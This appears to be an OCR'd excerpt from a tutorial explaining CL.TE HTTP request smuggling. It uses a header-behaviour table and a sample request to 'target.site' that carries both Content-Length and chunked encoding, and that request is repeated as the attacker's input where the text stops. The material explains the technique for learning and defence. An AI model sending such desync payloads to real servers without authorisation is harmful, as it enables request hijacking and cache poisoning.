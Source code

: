 ### Header Behavior

| Component   | Behavior                                                                          |
| ----------- | --------------------------------------------------------------------------------- |
| **Proxy**   | Uses `Content-Length`                                                             |
| **Backend** | Uses `Transfer-Encoding: chunked`                                                 |
| **Result**  | Proxy sends more than backend expects; leftover data becomes part of next request |

---

### Vulnerability Trigger

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```

#### Proxy View:

- Uses `Content-Length: 10`    
- Parses body as: `0\r\n\r\nHELLO`    
- Sends the full body to backend
    

#### Backend View:

- Uses chunked parsing    
- Ends request at `0\r\n\r\n`    
- Treats `HELLO` as start of a new request
    

---

### Desynchronization Example

#### Attacker sends:

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```
